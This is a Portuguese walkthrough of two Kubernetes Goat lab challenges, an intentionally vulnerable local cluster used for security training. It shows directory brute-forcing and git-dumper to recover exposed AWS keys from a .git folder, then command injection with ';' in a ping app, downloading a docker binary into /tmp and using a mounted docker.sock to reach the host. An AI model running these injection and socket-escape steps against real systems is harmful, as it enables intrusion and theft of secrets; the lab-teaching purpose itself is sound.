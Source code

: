 # Segurança em kubernetes

Se tratando de DevOps, Docker e Kubernetes se transformaram em ferramentas essenciais para a agilidade e escalabilidade na criação e implementação de aplicações. No entanto, essa flexibilidade vem com um preço: proteção. Pessoas má-intencionadas podem explorar facilmente ambientes mal configurados ou desprotegidos, causando violações de dados, interrupções de serviço e até mesmo perdas financeiras.

É essencial possuir um amplo entendimento das vulnerabilidades e métodos de ataque comuns para assegurar a segurança desses ambientes. O [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat) é uma ferramenta inovadora que simula um ambiente de cluster Kubernetes "vulnerável por design", com vários desafios que permitem a prática e aprendizado sobre segurança.

Neste artigo, vamos explorar a segurança do Docker e Kubernetes usando o Kubernetes Goat como nosso guia. Vamos examinar as vulnerabilidades e ataques mais importantes que podem impactar seus ambientes, e mostrar como o Kubernetes Goat pode ajudá-lo a identificá-los e lidar com eles de forma eficaz.


Setup inicial: 
Inicialmente clonamos o Kubernetes Goat em seu [git oficial](https://github.com/madhuakula/kubernetes-goat).
``` bash
git clone https://github.com/madhuakula/kubernetes-goat
cd kubernetes-goat
```

Para rodar essa ferramenta, precisaremos de um cluster Kubernetes ativo e operacional, lembrando que, de forma alguma, poderemos utilizar um cluster de produção para esses testes. Irei criar um cluster local utilizando o [Kind](https://kind.sigs.k8s.io/). Temos um script pronto para a instalação dentro de `./platforms/kind-setup`, rodaremos com o comando:
```bash
bash setup-kind-cluster-and-goat.sh
```

Assim que o cluster for criado iremos para o diretório raiz do Kubernetes Goat e rodamos o script para a instalação:
``` bash
bash setup-kubernetes-goat.sh
```

Após alguns minutos, damos o comando `kubectl get pods`, com todos os pods no ar, rodaremos um comando para acessar o ambiente, expondo os serviços:
``` bash
bach access-kubernetes-goat.sh
```

Acessando `http://127.0.0.1:1234` podemos ver a tela inicial da ferramenta com os desafios.

![tela inicial](images/tela-inicial.png)

## Primeiro desafio:

**"Sensitive keys in codebases"**

O primeiro desafio fala sobre códigos sensíveis em repositórios git. Os desenvolvedores correm o risco de commitar informações sensíveis em seus repositórios git, à medida que avançamos em direção a sistemas CI/CD e GitOps, tendemos a esquecer a identificação de informações confidenciais no código e seus commits, vamos ver se encontramos algo aqui. Esse cenário se encontra em `http://127.0.0.1:1230/` e o desafio é encontrar dados sensíveis.

![primeiro-desafio](images/primeiro-desafio.png)

Ao acessar essa página, podemos utilizar uma ferramenta chamada [Gobuster](https://github.com/OJ/gobuster) para encontrar os diretórios contidos nessa url, essa ferramenta varre a url desejada procurando diretórios e arquivos em uma url, para isso, também será necessário uma `wordlist`, que indica para a ferramenta o que ele deverá procurar, estou utilizando [essa](https://github.com/danielmiessler/SecLists).

Após rodar o comando `gobuster -u http://127.0.0.1:1230 -w common.txt` observamos que existe um diretório .git, utilizando a ferramenta [git-dumper](https://github.com/arthaud/git-dumper) podemos clonar esse repositório:

![gbuster](images/gbuster.png)

```bash
git-dumper http://127.0.0.1:1230/.git primeiro-desafio-git
```

ao entrarmos no diretório e procurar os commits com o comando `git log` conseguimos ver todo os logs de commits, após analizar com cuidado, observamos que o commit d7c173ad183c574109cd5c4c648ffe551755b576 adicionou variáveis de ambiente, acessamos esse commit com o comando `git checkout d7c173ad183c574109cd5c4c648ffe551755b576`.

![commit](images/commit.png)

Damos o comando `ls -la`para ver os arquivos e achamos um arquivo .env com dados sensíveis, como "aws_access_key_id", e "aws_secret_access_key"

![env](images/env.png)


## Segundo desafio:
**"DIND (docker-in-docker) exploitation"**

A maior parte dos sistemas CI/CD e de pipeline que utilizam o docker e cria contâiners de forma dinâmica, utilizam algo chamado de [DIND](https://medium.com/@gopesh3652/running-docker-in-docker-dind-a-comprehensive-guide-1fe2e328020) - (docker-in-docker). Nesse cenário, iremos explorá-lo para tentar ganhar acesso ao sistema host.

Iremos acessar o endpoint `http://127.0.0.1:1231/

![segundo-desafio](images/segundo-desafio.png)

É dada uma aplicação simples, onde poderemos pingar qualquer endereço, porém descobrimos que ela tem uma vulnerabilidade, onde podemos injetar códigos maliciosos utilizando ";" para passarmos múltiplos inputs, como o exemplo:

![multiplos-inputs](images/multiplos-inputs.png)

Conseguimos ver o output do comando `whoami`, agora poderemos analisar todo o sistema e encontrar possíveis brechas e informações.

Através do comando `mount` conseguimos ver que /custom/docker/docker.sock montado, assumindo que ele está montado no host, precisamos conversar com ele para comunicarmos com o socket UNIX

![mount](images/mount.png)

Existem diversas maneiras para isso, desde utilizar o binário oficial do docker, até mesmo utilizando o comando `curl`, utilizaremos a primeira opção. 

Para saber qual binário precisaremos instalar, rodamos o comando `uname -a` para ver a arquitetura e sistema operacional

![uname](images/uname.png)

Após saber que ele é um sistema linux x86_64, conseguimos baixar o binário correto:

```bash
; wget https://download.docker.com/linux/static/stable/x86_64/docker-26.1.2.tgz -O /tmp/docker-26-1-2.tgz
```
![wget](images/wget.png)

Extraímos o binário

``` bash
; tar -xvzf /tmp/docker-26-1-2.tgz -C /tmp/
```

![tar](images/tar.png)

Agora, com o binário extraído podemos ter acesso ao host rodando o comando do docker, passando o socket unix docker.sock como argumento

```bash
; /tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![list](images/list.png)

Só estamos listando os containers, porém, podemos explorar esse comando para ganhar mais acessos e explorar o sistema da forma desejada.
